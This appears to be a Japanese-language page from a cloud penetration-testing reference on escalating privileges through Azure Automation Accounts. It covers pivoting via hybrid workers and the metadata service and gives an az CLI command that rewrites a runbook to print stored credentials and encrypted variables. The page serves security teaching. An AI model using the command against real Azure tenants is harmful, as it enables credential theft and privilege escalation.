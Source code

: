 # Az - Azure Automation Accounts Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Automation Accounts

詳細については、次を確認してください:

{{#ref}}
../az-services/az-automation-accounts.md
{{#endref}}

### ハイブリッドワーカーグループ

- **Automation AccountからVMへ**

攻撃者がハイブリッドワーカーで任意のランブック（任意のコード）を実行できる場合、彼は**VMの場所にピボットします**。これは、オンプレミスのマシン、異なるクラウドのVPC、またはAzure VMである可能性があります。

さらに、ハイブリッドワーカーがAzureで他のマネージドアイデンティティと共に実行されている場合、ランブックは**ランブックのマネージドアイデンティティとVMのメタデータサービスからのすべてのマネージドアイデンティティにアクセスできる**ようになります。

> [!TIP]
> **メタデータサービス**は、Automation Accountのマネージドアイデンティティトークンを取得するサービスとは異なるURL（**`http://169.254.169.254`**）を持っていることを忘れないでください（**`IDENTITY_ENDPOINT`**）。

- **VMからAutomation Accountへ**

さらに、誰かがAutomation Accountスクリプトが実行されているVMを侵害した場合、彼は**Automation Account**のメタデータを特定し、VMからアクセスして**Automation Accountに関連付けられたManaged Identities**のトークンを取得できるようになります。

次の画像に示すように、VM上で管理者アクセスを持っている場合、**プロセスの環境変数**の中にAutomation AccountメタデータサービスにアクセスするためのURLとシークレットを見つけることができます:

![](</images/vm_to_aa.jpg>)


### `Microsoft.Automation/automationAccounts/jobs/write`, `Microsoft.Automation/automationAccounts/runbooks/draft/write`, `Microsoft.Automation/automationAccounts/jobs/output/read`, `Microsoft.Automation/automationAccounts/runbooks/publish/action` (`Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.Automation/automationAccounts/runbooks/write`)

要約すると、これらの権限は**Automation Account内でRunbooksを作成、変更、実行する**ことを可能にし、これを使用して**Automation Accountのコンテキストでコードを実行し、割り当てられた**Managed Identities**に特権を昇格させ、Automation Accountに保存された**資格情報**や**暗号化された変数**を漏洩させることができます。

権限**`Microsoft.Automation/automationAccounts/runbooks/draft/write`**は、Automation Account内のRunbookのコードを変更することを可能にします:
```bash
# Update the runbook content with the provided PowerShell script
az automation runbook replace-content --no-wait \
--resource-group Resource_Group_1 \
--automation-account-name autoaccount1 \
--name AzureAutomationTutorialWithIdentity \
--content '$creds = Get-AutomationPSCredential -Name "<credential-name>"
$runbook_variable = Get-AutomationVariable -Name "<encrypted-variable-name>"
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password'
```
前のスクリプトが、Automation Accountに保存されている資格情報の**ユーザー名とパスワード**、および**暗号化された変数**の値を**漏洩**させるためにどのように使用できるかに注意してください。
